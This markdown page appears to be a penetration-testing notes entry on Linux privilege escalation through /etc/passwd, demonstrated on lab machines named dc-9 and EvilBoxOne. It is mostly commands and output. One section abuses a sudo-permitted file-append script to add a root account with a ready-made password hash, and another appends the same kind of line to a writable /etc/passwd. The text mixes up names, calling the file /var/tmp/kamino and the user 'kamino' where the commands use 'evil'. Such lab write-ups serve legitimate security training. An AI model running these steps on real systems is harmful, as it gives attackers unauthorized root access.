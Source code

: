 ```yaml
---
layout: default
title: /etc/passwd
parent: Sudo
nav_order: 4
---
```


# /etc/passwd

---

## Replace /etc/passwd via Sudo

```bash
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test

```

We can run /opt/devstuff/dist/test/test with sudo privileges.

If we try to execute /opt/devstuff/dist/test/test it shows the usage.

```bash
fredf@dc-9:/opt/devstuff/dist/test$ ./test
Usage: python test.py read append

```

We can find the _test.py_ file in _/opt/devstuff/_

```bash
fredf@dc-9:/opt/devstuff/dist/test$ find / -name test.py 2>/dev/null
/opt/devstuff/test.py

```

Reviewing _test.py_ it shows that it reads a file and appends to that file.

```bash
fredf@dc-9:/opt/devstuff$ cat test.py
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()

```

We will exploit this by appending a new user to _/etc/passwd_

First we create the file that will be read in by _test.py_ in /var/tmp

The following will add a root user with the password _i<3hacking_

```bash
fredf@dc-9:/var/tmp$ echo 'evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash' > /var/tmp/evil


fredf@dc-9:/var/tmp$ cat evil
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

Now we can execute the _/opt/devstuff/dist/test/test_ and read in the _/var/tmp/kamino_ and append to the file _/etc/passwd_

```bash
redf@dc-9:/var/tmp$ sudo /opt/devstuff/dist/test/test /var/tmp/evil /etc/passwd

redf@dc-9:/var/tmp$ cat /etc/passwd

# we see our newly created root user "evil" at the bottom of /etc/passwd
scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

Our exploit was successful and now we can switch to the _kamino_ user and have root privileges.

```bash
fredf@dc-9:/var/tmp$ su evil
Password:
root@dc-9:/var/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```

## /etc/passwd Writable

_/etc/passwd_ is writable and we can add a new user.

The following will add a root user with the password _i<3hacking_

```bash
echo 'kamino:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash' >> /etc/passwd

mowree@EvilBoxOne:~$ echo 'kamino:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:kamino:/home/kamino:/bin/bash' >> /etc/passwd

mowree@EvilBoxOne:~$ su kamino
Contraseña:
root@EvilBoxOne:/home/mowree# id
uid=0(root) gid=0(root) grupos=0(root)

```
